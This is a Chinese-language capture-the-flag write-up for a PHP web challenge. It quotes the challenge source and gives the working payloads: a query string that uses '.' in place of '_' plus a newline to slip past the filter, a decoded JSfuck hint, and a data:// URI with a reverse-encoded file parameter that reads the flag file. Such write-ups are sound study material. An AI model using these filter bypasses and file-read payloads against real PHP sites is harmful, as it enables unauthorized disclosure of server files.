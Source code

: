 考点：PHP把.解析为_、JSfuck、data://协议的使用、逆向php算法

打开题目，源码里面提示：

```
$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
```

传值：`?b.u.p.t=23333%0A`，提示访问`secrettw.php `访问之后源码给了JSfuck，复制到控制台运行下得到“POST ME Merak”，post一个键名为Merak的任意值，得到源码：

```
Flag is here~But how to get it? 
<?php 
error_reporting(0); 
include 'takeip.php';
ini_set('open_basedir','.'); 
include 'flag.php';

if(isset($_POST['Merak'])){ 
    highlight_file(__FILE__); 
    die(); 
} 


function change($v){ 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
echo 'Local access only!'."<br/>";
$ip = getIp();
if($ip!='127.0.0.1')
echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
echo "Your REQUEST is:".change($_GET['file']);
echo file_get_contents(change($_GET['file'])); }
?>
```

`file_get_contents($_GET['2333'])`需要使用data协议，然后逆向上面的函数就行了

```
?2333=data://text/plain,todat+is+a+happy+day&file=ZmpdYSZmXGI=
```
